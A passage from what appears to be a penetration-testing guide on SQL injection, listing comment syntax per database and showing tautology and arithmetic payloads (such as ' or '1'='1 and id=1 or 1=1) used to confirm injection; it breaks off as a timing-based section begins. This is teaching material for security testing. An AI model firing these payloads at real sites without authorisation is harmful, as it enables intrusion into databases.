 *Note that if you can see error messages or you can spot differences when a query is working and when it's not this phase will be more easy.*

##### **Comments**

```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```

##### Confirming with logical operations

One of the best ways to confirm a SQL injection is by making it operate a **logical operation** and having the expected results.
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter' or '1'='1` then, you found a SQL injection.

Also you can apply this concept to **mathematical operations**. Example: If `?id=1` returns the same as `?id=2-1`, SQLinjection.

```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

##### Confirming with Timing

In some cases you **won't notice any change** on the page you are testing. Therefore, a good way to **discover blind SQL injections** is making the DB perform actions and will have an **impact on the time** the page need to load.
Therefore, the we are going to concat in the SQL query an operation that will take a lot of time to complete:
